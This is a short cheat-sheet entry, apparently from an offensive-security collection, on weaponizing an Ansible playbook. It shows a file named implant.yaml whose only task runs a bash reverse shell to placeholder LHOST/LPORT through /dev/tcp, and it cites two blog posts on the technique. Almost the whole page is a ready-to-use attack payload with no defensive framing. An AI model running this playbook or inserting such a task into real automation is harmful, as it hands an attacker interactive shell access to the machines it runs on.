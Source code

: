 # Ansible Playbook

```
$ cat implant.yaml
- hosts: localhost
  tasks:
  - name: revshell
    shell: bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'
```

---
## References

- [Rio Asmara Suryadi: Ansible Yml file for Reverse Shell](https://rioasmara.com/2023/10/08/ansible-yml-file-for-reverse-shell/)

- [Rio Asmara Suryadi: Ansible Playbook Weaponization](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/)